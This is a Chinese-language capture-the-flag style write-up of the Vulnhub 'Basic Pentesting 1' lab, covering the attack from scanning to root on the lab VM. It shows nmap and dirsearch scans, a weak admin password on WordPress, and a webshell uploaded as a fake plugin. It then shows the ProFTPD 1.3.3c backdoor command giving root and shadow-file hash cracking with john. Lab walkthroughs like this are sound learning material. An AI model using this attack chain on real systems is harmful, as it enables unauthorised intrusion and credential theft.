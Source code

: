 ```yaml
---
title: Vulnhub basic pentesting 1 Writeup
date: 2024-08-1
categories: [資安]
tags: [writeup]

description: Vulnhub basic pentesting 1 過程最終取得Root

published: true #不顯示此文章
---
```



## Before

- 攻擊者ip 192.168.18.136
- 靶機ip 192.168.18.139

-------
## 服務掃描

對靶機`192.168.18.139`進行服務掃描:
```bash
nmap -sV -sT -p- 192.168.18.139
```

掃描結果:
```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* ProFTPD 1.3.3c      CVE-2015-3306   
* OpenSSH 7.2p2       CVE-2016-0777,CVE-2016-0778
* Apache httpd 2.4.18 CVE-2016-5387

一開始沒有去注意到這麼多CVE就直接去打網頁了

----
## 目錄掃描 

使用 `dirsearch` 工具進行目錄掃描：
```bash
dirsearch -u "192.168.18.139"
```

掃描結果:
```text
[14:24:47] 200 -  177B  - /index.html
[14:24:53] 301 -  317B  - /secret  ->  http://192.168.18.139/secret/
[14:24:53] 200 -   52KB - /secret/
[14:24:54] 403 -  303B  - /server-status/
[14:24:54] 403 -  302B  - /server-status
```

在 `http://192.168.18.139/secret/` 發現了域名 `http://vtcsec/` 和管理員登入介面 `http://vtcsec/secret/wp-login.php`

起手式`admin:admin`(弱密碼) 成功登入

---------
## 利用WP plugin

製作假`plugin`裡面含`webshell`上傳到伺服器

將`WP plugin`所需的標頭加入到`webshell`裡面:
```text
/*
Plugin Name: wordprees webshell
Plugin URI: IDK
Description: this plugin is websehll 
Version: 1.0
Author: hacker
Author URI: IDK
License: GPL2
*/
```

訪問 `http://vtcsec/secret/wp-admin/plugins.php?plugin=wp_webshell%2Fwp_webshell.php` 讓`webshell`執行 
成功`RCE`

---------------------------
## 交互式Bash Shell

利用`webshell`送出指令取得交互式的`Bash shell`:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

-------
## 後續操作

在`/home/marlinspike`找路徑看到才發現`ProFTPD 1.3.3c`的後門漏洞:
```text
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz.bak
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backdoored_proftpd-1.3.3c
examples.desktop
latest.tar.gz
proftpd-1.3.3c
proftpd-1.3.3c.tar.bz2
proftpd-1.3.3c.tar.bz2.bak
wordpress
```

發現 `ProFTPD 1.3.3c` 存在後門漏洞 `CVE-2015-3306`，特定指令可獲得 root 權限：
```bash
ps aux | grep proftpd

nc 192.168.18.139 21

HELP ACIDBITCHEZ
```
![getrootimage](/_posts/images/getroot.png)
> 可以使用metasoloit但是我還沒學 哈哈哈哈哈哈 

---------
## 密碼爆破

- **準備文件**
    - **`passwd.txt`**: 這個文件包含了 **`/etc/passwd`** 文件的內容，列出了系統中的用戶和基本信息，但不包括密碼哈希。
    - **`shadow.txt`**: 這個文件包含了 **`/etc/shadow`** 文件的內容，存儲了加密的密碼哈希。
- **合併文件**
    
    - 使用 **`unshadow`** 工具來將 **`passwd.txt`** 和 **`shadow.txt`** 合併成一個文件 **`combined.txt`**，這個文件包含了用戶名和加密的密碼哈希，格式適合於 **`john`** 工具進行破解：
    
        ```bash
        sudo unshadow passwd.txt shadow.txt > combined.txt
        ```
- **破解密碼**
    
    - 使用 **`john`** 工具來對 **`combined.txt`** 文件中的密碼哈希進行破解：
        
		```bash
	    john combined.txt
        ```
        
    - **`john`** 會嘗試使用字典攻擊和其他破解技術來解密密碼哈希。
- **顯示結果**
    
    - 破解完成後，使用 **`john`** 的 **`--show`** 選項來顯示破解得到的原始密碼：
    
        ```bash
		john --show combined.txt
        ```

    - 會顯示出密碼（**`********`**）。

------------------------

